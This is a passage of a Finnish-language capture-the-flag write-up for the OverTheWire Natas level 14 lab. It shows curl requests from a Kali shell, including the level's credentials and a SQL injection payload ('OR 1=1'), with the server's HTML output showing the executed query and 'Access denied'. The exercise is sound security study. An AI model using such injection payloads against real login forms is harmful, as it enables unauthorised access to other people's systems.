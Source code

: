 syötin jotakin satunnaista et ainakin tooimii ja kertookin jotakin (alempi komento)

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org?debug&username=something&&passsword=random" 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<br />
<b>Notice</b>:  Undefined index: password in <b>/var/www/natas/natas14/index.php</b> on line <b>19</b><br />
Executing query: SELECT * from users where username="something" and password=""<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


vähä kuin aikaisemmat testit `"admin"` ja `"admin"`: 

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin&&password=admin%22%20OR%201=1%E2%80%93%20&&password=admin"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="admin" and password="admin"<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```
